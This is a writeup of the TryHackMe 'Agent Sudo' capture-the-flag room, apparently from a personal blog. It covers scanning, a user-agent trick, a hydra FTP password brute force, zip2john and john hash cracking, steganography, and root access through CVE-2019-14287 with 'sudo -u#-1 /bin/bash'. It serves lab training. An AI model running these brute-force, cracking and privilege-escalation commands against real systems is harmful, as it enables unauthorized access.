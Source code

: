 ```yaml
---
slug: agent-sudo
title: THM Agent sudo writeup
description: Tryhackme Agent-sudo room writeup
image: https://tryhackme-images.s3.amazonaws.com/room-icons/aedc6b66c222e15ff740c282a0c3f44e.png
authors: ["shivam"]
tags: ["stegnography", "zip2john", "user-agent"]
---
```


# Agent sudo writeup

Hello everyone,

Today we are going to solve agent sudo room from Tryhackme. we will learn about user-agent, zip2john and CVE-2019-14287

![](https://tryhackme-images.s3.amazonaws.com/room-icons/aedc6b66c222e15ff740c282a0c3f44e.png)

<!--truncate-->

## nmap results

```bash
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| 256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|\_ 256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|\_http-server-header: Apache/2.4.29 (Ubuntu)
|\_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## dirsearch results

```bash
[10:34:41] 200 - 218B - /index.php
[10:34:52] 403 - 277B - /server-status
```

---

--> got this in default page :

![](Attachments/Pastedimage20210709110809.png)

--> after reading hint i know that we have to change the user agent to C so i tried it and found another text on thich i got the username of agent C

![](Attachments/Pastedimage20210709111333.png)

---

## FTP

--> Let's brute force the password of FTP using hydra

```c
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.34.127
```

--> i got the password for chris

![](Attachments/Pastedimage20210709111737.png)

--> i got this files in ftp

![](Attachments/Pastedimage20210709111958.png)

--> got this in To_AgentJ file

```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

---

## Stegnography

--> i used binwalk to extract the data of cutie.png and found some files

![](Attachments/Pastedimage20210709114136.png)

--> let's extract these files using -e flag

```
binwalk -e cutie.png
```

--> for this we have to locate zip2john which is similar to ssh2john so Let's run this and store the output in decrypted file !

```
locate zip2john
/usr/sbin/zip2john 8702.zip > decrypted
john --wordlist=/usr/share/wordlist/rockyou.txt decrypted
```

--> and i got the password !

![](Attachments/Pastedimage20210709114952.png)

--> i found this txt file after extracting the zip file !

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

--> after decrypting that word i found the stego password which was Area51

![](Attachments/Pastedimage20210709115315.png)

--> i got message.txt file with that passphrase so Let's read that file !

![](Attachments/Pastedimage20210709115700.png)

![](Attachments/Pastedimage20210709115717.png)

--> and i got the ssh password for james in that file !

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

---

## Image stegno

--> i got this image in home directory

![](Attachments/Pastedimage20210709122756.png)

--> then i watched hint and found one article on foxnews.com

![](Attachments/Pastedimage20210709122855.png)

--> so we answered all questions so let's do privesc now !

---

## Privesc

--> first of all i done sudo -l and found one interesting thing :

![](Attachments/Pastedimage20210709123801.png)

--> this line looks weird so i copied it and pasted it on google and found one exploit for this on exploitdb.com

![](Attachments/Pastedimage20210709123848.png)

--> also i got CVE number from exploit-db

![](Attachments/Pastedimage20210709123923.png)

--> so the exploit was like :

```
sudo -u#-1 /bin/bash
```

--> and i got root shell !

---
